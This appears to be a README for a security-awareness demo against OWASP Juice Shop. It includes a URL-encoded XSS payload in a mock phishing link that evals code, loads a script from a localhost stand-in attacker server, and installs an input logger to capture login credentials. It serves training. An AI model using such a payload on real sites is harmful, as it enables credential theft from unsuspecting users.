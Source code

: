 # shake-logger
This projects provides a logger and a connected harlem shake js. The shake logger runs on port 8080, make sure that it is not blocked.

> Please enable [autoplay](https://www.ghacks.net/2018/02/06/how-to-control-audio-and-video-autoplay-in-google-chrome/) in your browser.

# Juice Shop
This projects helps in awareness trainings, specally with the [juice shop](https://github.com/bkimminich/juice-shop).
You can use it via docker and docker-compose running:
´docker-compose up´

To show the possible impact of [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)), assume you received and (of course) clicked
[this inconspicuous phishing link](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp)
and login. Apart from the visual/audible effect, the attacker also
installed [an input logger](http://localhost:8080/logger.php) to grab credentials! This could easily run on a 3rd party server in real life!

> You can also find a recording of this attack in action on YouTube:
> [:tv:](https://youtu.be/Msi52Kicb-w)

# Hints
Inspired by https://github.com/moovweb/harlem_shaker
